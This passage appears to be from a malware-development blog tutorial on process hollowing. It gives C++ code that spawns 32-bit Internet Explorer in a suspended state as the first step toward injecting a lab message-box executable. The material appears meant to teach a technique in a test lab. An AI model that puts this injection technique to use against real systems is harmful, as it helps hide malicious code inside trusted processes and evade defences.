 # Development

Now that we’ve covered how process hollowing works in theory, let’s move on to creating it and attempting to inject malicious code into different processes on the system.

Additionally, the following code is written for the `32-bit` process we will attack (e.g., Internet Explorer). `64-bit` processes have a slightly different layout, so the code needs to be rewritten and tailored for them.

## Creating Suspended Process

We first start by creating a victim process in a suspended state using `CreateProcessA()`. In this case, it will spawn Internet Explorer (32-bit) in a suspended state.

Additionally, we will utilize the `LPSTARTUPINFOA` and `LPPROCESS_INFORMATION` structures, which will contain useful information about the process itself.

```c++
LPSTARTUPINFOA pVictimStartupInfo = new STARTUPINFOA();
LPPROCESS_INFORMATION pVictimProcessInfo = new PROCESS_INFORMATION();
LPCSTR victimImage = "C:\\Program Files (x86)\\Internet Explorer\\iexplore.exe";
LPCSTR malImage = "C:\\Users\\commando\\Desktop\\maldev\\Sample Message Box\\Release\\Sample Message Box.exe";

if (!CreateProcessA(0, (LPSTR)victimImage, 0, 0, 0, CREATE_SUSPENDED, 0, 0, pVictimStartupInfo, pVictimProcessInfo))
{
 std::cout << "[-] Failed to create a suspended process: " << GetLastError() << '\n';
 return 1;
}

// Log information to the console
std::cout << "[+] Suspended process created\n";
std::cout << "\t[i] Process ID -> " << pVictimProcessInfo->dwProcessId << '\n';
```

> As can be seen I am using an already created sample message box that will be injected. I won’t go into details of how to create it as it is super simple Windows message box.
{: .prompt-tip}

When debugging the code, we can see that the process was successfully started in the suspended state.

![Process in suspended state](/assets/img/posts/img_process_hollowing/process_suspended_state.png)
_Figure 2: Process started in suspended state._

